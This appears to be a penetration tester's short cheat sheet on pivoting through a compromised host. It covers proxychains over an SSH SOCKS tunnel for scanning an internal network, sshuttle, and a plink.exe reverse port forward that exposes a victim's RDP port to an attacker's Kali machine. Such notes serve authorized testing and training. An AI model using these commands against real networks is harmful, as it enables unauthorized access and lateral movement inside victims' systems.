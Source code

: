 ```yaml
---
title: PIVOTING
updated: 2023-11-03 08:42:59Z
created: 2023-09-29 05:23:47Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# PIVOTING

## PROXYCHAINS

1.  Check proxychains config **/etc/proxychains4.conf**
2.  `proxychains`
3.  `ssh -f -N -D 9050 -i pivot root@<target IP_nic1>`
4.  `proxychains nmap <network IP of target_nic2>` (can use **\-sT**)
5.  `proxychains <command>` (eg proxychains firefox)

* * *

## SSHUTTLE

1.  `sshuttle -r root@<target IP_nic1> --ssh-cmd "ssh -i pivot"`
2.  Once running, **all commands** will run thru the proxy

## Port Forwading plink.exe

`plink.exe -l <username> -pw <password> <haker IP> -R <Attacker_Port_to_receive>:127.0.0.1:<Victim_port_to_Forward>`

**Example:**  
`plink -l root -pw password KALI_IP -R 3390:127.0.0.1:3389`

https://linuxize.com/post/how-to-setup-ssh-tunneling/